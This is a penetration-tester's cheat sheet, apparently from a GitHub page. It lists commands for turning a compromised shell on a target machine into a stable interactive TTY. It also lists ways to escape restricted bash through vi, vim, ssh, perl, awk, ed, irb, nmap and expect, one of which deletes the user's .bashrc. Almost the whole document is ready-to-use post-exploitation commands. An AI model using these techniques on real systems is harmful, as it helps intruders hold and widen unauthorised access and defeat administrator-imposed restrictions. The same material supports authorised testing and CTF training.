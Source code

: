 Out of the gate.

python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp:/snap/bin
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Keyboard Shortcut: Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset
stty columns 200 rows 200
stty columns 150 rows 150

(stty size)
 
* Don't forget that you can always set the terminal history to be infinite, and the keystroke scroll back. 

* Grab a valid tty.
* What OS are you on? Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD
* Want a color terminal to easily tell apart file permissions? Directories? Files?
* Fastest way to list out the files in a directory, show size, show permissions, human readable.
* Make this shell stable.



Is this rbash (Restricted Bash)? PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

Is this rbash (Restricted Bash)? PT2
(This requires ssh user-level access)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(Bash Shell)

Is python present on the target machine?
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

Is perl present on the target machine?
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

Is AWK present on the target machine?
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

Is ed present on the target machines?
ed
!sh

IRB Present on the target machine?
exec "/bin/sh"

Is Nmap present on the target machine?
nmap --interactive
nmap> !sh

Expect:

expect -v
  expect version 5.45.4
  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh